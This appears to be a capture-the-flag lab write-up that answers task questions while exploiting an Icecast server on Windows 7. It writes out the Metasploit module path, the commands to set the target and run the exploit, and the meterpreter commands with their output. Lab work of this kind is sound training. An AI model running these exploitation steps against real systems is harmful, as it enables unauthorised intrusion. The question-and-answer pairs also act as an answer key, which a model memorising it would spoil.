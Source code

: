 `search icecast`

### #3 What is the full path (starting with exploit) for the exploitation module?
    
    exploit/windows/http/icecast_header

`use 0`

`show options`

### #4 What is the only required setting which currently is blank?
    
    rhosts

`set RHOSTS 10.10.69.136`

`exploit`

`meterpreter > getwd`
`C:\Program Files (x86)\Icecast2 Win32`


## Task 4
## Escalate

### #1 Woohoo! We've gained a foothold into our victim machine! What's the name of the shell we have now?
    
    meterpreter


### #2 	What user was running that Icecast process?
    dark

`getuid`
    
    Server username: Dark-PC\Dark

### #3 What build of Windows is the system?

    7601

`sysinfo`
    
    Computer        : DARK-PC
    OS              : Windows 7 (Build 7601, Service Pack 1).
    Architecture    : x64


### #4  hat is the architecture of the process we're running?
    
    x64

